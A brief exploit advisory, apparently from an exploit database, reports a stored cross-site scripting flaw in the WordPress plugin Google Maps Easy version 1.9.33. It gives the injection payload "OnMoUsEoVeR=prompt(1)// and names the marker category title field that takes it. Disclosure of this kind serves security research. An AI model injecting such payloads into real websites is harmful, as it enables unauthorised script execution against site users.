 # Exploit Title: WrodPress Plugin Google Maps Easy —— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/google-maps-easy/
# Version :  V 1.9.33
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Google Maps Easy》Marker Categories》Category Title,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image]()  